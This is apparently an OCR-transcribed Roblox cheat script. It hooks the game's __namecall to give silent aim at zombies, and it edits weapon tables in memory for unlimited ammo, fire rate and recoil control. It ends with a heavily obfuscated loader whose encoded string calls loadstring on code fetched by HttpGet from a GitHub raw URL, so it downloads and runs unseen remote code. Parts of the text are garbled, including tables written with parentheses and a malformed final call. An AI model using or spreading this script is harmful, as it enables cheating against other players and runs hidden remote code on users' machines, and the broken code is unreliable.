 local uis = game:GetService("UserInputService")
local cam = game:GetService("Workspace").CurrentCamera
local ts = game:GetService("TweenService")
local plr = game:GetService("Players").LocalPlayer
local zombies = game:GetService("Workspace").Zombies

local function getClosestSilent()
    local closestDist = math.huge
    local closestPlr = nil
    for _, v in next, zombies.GetChildren(zombies) do
        if game.FindFirstChild(v, "Humanoid") and v.Humanoid.Health > 0 then
            local vector, onScreen = cam.worldToScreenPoint(cam, game.WaitForChild(v, "Head", math.huge).Position)
            local dist = (Vector2.new(uis.GetMouseLocation(uis).X, uis.GetMouseLocation(uis).Y) - Vector2.new(vector.X, vector.Y)).Magnitude
            if dist < closestDist and onScreen then
                closestDist = dist
                closestPlr = v
            end
        end
    end
    return closestPlr
end

local namecall;
namecall = hookmetamethod(game, "__namecall", function(Self, ...)
	if not checkcaller() and tostring(getcallingscript()) == "Framework" and string.lower(getnamecallmethod()) == "findpartonraywithignorelist" then
		local args = {...}
		local closest = getClosestSilent()
		if closest then
			local origin = args[1].Origin
			args[1] = Ray.new(origin, closest.Head.Position - origin)
		end
		return namecall(Self, unpack(args))
	end
	return namecall(Self, ...)
end)
local spread1 = (

  Increase = 0,

  Decrease = 0,

  Max = 0,

  Min = 0

)

local rec = (

  Tilt = { 0, 0 },

  Side = { 0, 0 },

  Vertical = { 0, 0 },

  Back = { 0, 0 },

  Aimed = 0,

  FirstShot = 0

)

for i,v in pairs(getgc(true)) do

   if type(v) == 'table' and rawget(v, 'magsize') then
       v.magsize = math.huge
       v.storedammo = math.huge
       v.rpm = math.huge
       v.spread = spread1
       v.recoil = rec
       v.mode = "Auto"
   end
end
--[[
FLAME/WATERSEA [V1]
]]--

do local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function()return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...)local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30)if (v1(v30,2)==79) then v19=v0(v3(v30,1,1));return "";else local v79=0;local v80;while true do if (v79==0) then v80=v2(v0(v30,16));if v19 then local v96=v5(v80,v19);v19=nil;return v96;else return v80;end break;end end end end);local function v20(v31,v32,v33)if v33 then local v81=(v31/((5 -3)^(v32-(2 -1))))%((1 + 1)^(((v33-(1 -0)) -(v32-1)) + (2 -(1 + 0)))) ;return v81-(v81%1) ;else local v82=(621 -(555 + 64))^(v32-(932 -((1734 -(282 + 595)) + 74))) ;return (((v31%(v82 + v82))>=v82) and (569 -(367 + 201))) or (927 -(214 + 713)) ;end end local function v21()local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22()local v35,v36=v1(v16,v18,v18 + (1639 -(1523 + 114)) );v18=v18 + 2 + 0 ;return (v36 * (364 -108)) + v35 ;end local function v23()local v37,v38,v39,v40=v1(v16,v18,v18 + 3 );v18=v18 + (1069 -(68 + 997)) ;return (v40 * (16778486 -(226 + 1044))) + (v39 * (285370 -219834)) + (v38 * (373 -(32 + 85))) + v37 ;end local function v24()local v41=v23();local v42=v23();local v43=1 + 0 ;local v44=(v20(v42,1 -(0 + 0) ,5 + 15 ) * ((959 -(892 + 65))^32)) + v41 ;local v45=v20(v42,49 -28 ,1028 -(915 + 82) );local v46=((v20(v42,32)==(1 -0)) and  -(1 -0)) or (351 -(87 + 263)) ;if (v45==((1629 -(416 + 26)) -(1069 + (556 -(145 + 293))))) then if (v44==(180 -(67 + 113))) then return v46 * (0 -0) ;else v45=1 -(0 -0) ;v43=0 + 0 ;end elseif (v45==(5025 -2978)) then return ((v44==(0 -0)) and (v46 * ((1 + 0)/(0 -0)))) or (v46 * NaN) ;end return v8(v46,v45-(1975 -(802 + 150)) ) * (v43 + (v44/(((450 -(44 + 386)) -((1496 -(998 + 488)) + 3 + 5))^(139 -87)))) ;end local function v25(v47)local v48=859 -(814 + 45) ;local v49;local v50;while true do if (v48==(0 + 0)) then v49=nil;if  not v47 then v47=v23();if (v47==(772 -(201 + 571))) then return "";end end v48=1139 -(116 + 1022) ;end if (v48==3) then return v6(v50);end if (v48==(8 -(14 -8))) then v50={};for v88=1 + 0 , #v49 do v50[v88]=v2(v1(v3(v49,v88,v88)));end v48=3;end if (v48==(3 -2)) then v49=v3(v16,v18,(v18 + v47) -(3 -2) );v18=v18 + v47 ;v48=1 + 1 ;end end end local v26=v23;local function v27(...)return {...},v12("#",...);end local function v28()local v51=0 -0 ;local v52;local v53;local v54;local v55;local v56;local v57;local v58;while true do if (v51==2) then local v86=0;while true do if (v86~=(868 -(550 + 317))) then else v51=3 -0 ;break;end if (v86~=(0 -0)) then else v56=nil;v57=nil;v86=1;end end end if (v51~=(8 -5)) then else v58=nil;while true do local v90=0;local v91;while true do if (v90==(285 -(134 + 151))) then v91=0;while true do if (v91==0) then local v127=0;while true do if (v127~=1) then else v91=1;break;end if (v127~=(1665 -(970 + 695))) then else if (1==v52) then local v141=0 -0 ;while true do if (v141==(1992 -(582 + 1408))) then v52=2;break;end if ((3 -2)~=v141) then else for v147=1 -0 ,v57 do local v148=0 -0 ;local v149;local v150;local v151;while true do if (0==v148) then v149=1824 -(1195 + 629) ;v150=nil;v148=1 -0 ;end if (v148==1) then v151=nil;while true do if (v149~=0) then else local v154=0;while true do if (v154~=(241 -(187 + 54))) then else local v156=0;while true do if (v156~=(780 -(162 + 618))) then else v150=v21();v151=nil;v156=1 + 0 ;end if (1==v156) then v154=1 + 0 ;break;end end end if (v154~=1) then else v149=1 -0 ;break;end end end if (v149~=(1 -0)) then else if (v150==1) then v151=v21()~=0 ;elseif (v150==2) then v151=v24();elseif (v150~=3) then else v151=v25();end v58[v147]=v151;break;end end break;end end end v56[3]=v21();v141=1 + 1 ;end if (0==v141) then v57=v23();v58={};v141=1;end end end if (v52~=(1638 -(1373 + 263))) then else local v142=1000 -(451 + 549) ;local v143;while true do if (v142~=(0 + 0)) then else v143=0;while true do local v152=0;while true do if (v152==(0 -0)) then if (v143~=(0 -0)) then else local v153=1384 -(746 + 638) ;while true do if (v153==0) then for v157=1,v23() do local v158=0 + 0 ;local v159;local v160;while true do if (v158==1) then while true do if ((0 -0)==v159) then v160=v21();if (v20(v160,342 -(218 + 123) ,1582 -(1535 + 46) )~=(0 + 0)) then else local v164=0 + 0 ;local v165;local v166;local v167;while true do if (v164~=2) then else local v168=0;while true do if (v168==1) then v164=563 -(306 + 254) ;break;end if (v168~=0) then else if (v20(v166,1 + 0 ,1)==(1 -0)) then v167[1469 -(899 + 568) ]=v58[v167[2]];end if (v20(v166,2,2)~=(1 + 0)) then else v167[7 -4 ]=v58[v167[606 -(268 + 335) ]];end v168=291 -(60 + 230) ;end end end if (3==v164) then if (v20(v166,3,575 -(426 + 146) )==(1 + 0)) then v167[1460 -(282 + 1174) ]=v58[v167[4]];end v53[v157]=v167;break;end if (v164==(811 -(569 + 242))) then local v170=0 -0 ;while true do if (v170~=(1 + 0)) then else v164=1025 -(706 + 318) ;break;end if (v170==0) then v165=v20(v160,2,1254 -(721 + 530) );v166=v20(v160,1275 -(945 + 326) ,14 -8 );v170=1;end end end if (v164==1) then local v171=0 + 0 ;while true do if (v171==(700 -(271 + 429))) then local v174=0;while true do if (v174~=(0 + 0)) then else v167={v22(),v22(),nil,nil};if (v165==(1500 -(1408 + 92))) then local v179=1086 -(461 + 625) ;local v180;while true do if ((1288 -(993 + 295))~=v179) then else v180=0 + 0 ;while true do if (v180==0) then v167[1174 -(418 + 753) ]=v22();v167[2 + 2 ]=v22();break;end end break;end end elseif (v165==1) then v167[1 + 2 ]=v23();elseif (v165==2) then v167[1 + 2 ]=v23() -((1 + 1)^16) ;elseif (v165~=3) then else local v185=0;local v186;while true do if (v185~=(529 -(406 + 123))) then else v186=1769 -(1749 + 20) ;while true do if (v186==(0 + 0)) then v167[3]=v23() -(2^(1338 -(1249 + 73))) ;v167[2 + 2 ]=v22();break;end end break;end end end v174=1;end if (1~=v174) then else v171=1;break;end end end if ((1146 -(466 + 679))==v171) then v164=4 -2 ;break;end end end end end break;end end break;end if ((0 -0)~=v158) then else local v163=0;while true do if (1==v163) then v158=1;break;end if (v163~=0) then else v159=1900 -(106 + 1794) ;v160=nil;v163=1;end end end end end for v161=1 + 0 ,v23() do v54[v161-1 ]=v28();end v153=1;end if (v153==1) then v143=1 + 0 ;break;end end end if (v143==1) then return v56;end break;end end end break;end end end v127=1;end end end if (v91==1) then if (v52~=(0 -0)) then else local v136=0 -0 ;while true do if (v136~=(115 -(4 + 110))) then else v55={};v56={v53,v54,nil,v55};v136=3 -1 ;end if (v136==0) then v53={};v54={};v136=2 -1 ;end if (v136~=(168 -(122 + 44))) then else v52=1;break;end end end break;end end break;end end end break;end if (v51==1) then local v87=0;while true do if (v87~=0) then else v54=nil;v55=nil;v87=1;end if (v87==(1 -0)) then v51=6 -4 ;break;end end end if ((0 + 0)==v51) then v52=0 + 0 ;v53=nil;v51=1;end end end local function v29(v59,v60,v61)local v62=v59[1];local v63=v59[2];local v64=v59[3];return function(...)local v65=v62;local v66=v63;local v67=v64;local v68=v27;local v69=1;local v70= -1;local v71={};local v72={...};local v73=v12("#",...) -1 ;local v74={};local v75={};for v83=0,v73 do if (v83>=v67) then v71[v83-v67 ]=v72[v83 + 1 ];else v75[v83]=v72[v83 + 1 ];end end local v76=(v73-v67) + 1 ;local v77;local v78;while true do v77=v65[v69];v78=v77[1];if (v78<=3) then if (v78<=1) then if (v78==0) then do return;end else v75[v77[2]]();end elseif (v78>2) then local v97;local v98,v99;local v100;local v101;v75[v77[2]]=v61[v77[3]];v69=v69 + 1 ;v77=v65[v69];v75[v77[2]]=v61[v77[3]];v69=v69 + 1 ;v77=v65[v69];v101=v77[2];v100=v75[v77[3]];v75[v101 + 1 ]=v100;v75[v101]=v100[v77[4]];v69=v69 + 1 ;v77=v65[v69];v75[v77[2]]=v77[3];v69=v69 + 1 ;v77=v65[v69];v101=v77[2];v98,v99=v68(v75[v101](v13(v75,v101 + 1 ,v77[3])));v70=(v99 + v101) -1 ;v97=0;for v125=v101,v70 do local v126=0;while true do if (v126==0) then v97=v97 + 1 ;v75[v125]=v98[v97];break;end end end v69=v69 + 1 ;v77=v65[v69];v101=v77[2];v75[v101]=v75[v101](v13(v75,v101 + 1 ,v70));v69=v69 + 1 ;v77=v65[v69];v75[v77[2]]();v69=v69 + 1 ;v77=v65[v69];do return;end else local v111=0;local v112;local v113;while true do if (v111==0) then v112=v77[2];v113=v75[v77[3]];v111=1;end if (v111==1) then v75[v112 + 1 ]=v113;v75[v112]=v113[v77[4]];break;end end end elseif (v78<=5) then if (v78==4) then local v114=0;local v115;local v116;local v117;local v118;while true do if (v114==2) then for v139=v115,v70 do local v140=0;while true do if (0==v140) then v118=v118 + 1 ;v75[v139]=v116[v118];break;end end end break;end if (v114==1) then v70=(v117 + v115) -1 ;v118=0;v114=2;end if (v114==0) then v115=v77[2];v116,v117=v68(v75[v115](v13(v75,v115 + 1 ,v77[3])));v114=1;end end else v75[v77[2]]=v61[v77[3]];end elseif (v78==6) then local v121=0;local v122;while true do if (v121==0) then v122=v77[2];v75[v122]=v75[v122](v13(v75,v122 + 1 ,v70));break;end end else v75[v77[2]]=v77[3];end v69=v69 + 1 ;end end;end return v29(v28(),{},v17)(...);end v15("LOL!043O00030A3O006C6F6164737472696E6703043O0067616D6503073O00482O7470476574037C3O00682O7470733A2O2F7261772E67697468756275736572636F6E74656E742E636F6D2F2O4C437465616D732F5A4B4875622F6D61696E2F2544302539452544302542442544302542382532302544302542462544312538302544302542382544312538352544302542452544302542342544312538462544312538322100083O0012033O00013O00122O000100023O00202O00010001000300122O000300046O000100039O0000026O000100016O00017O00",v9(),,...);end
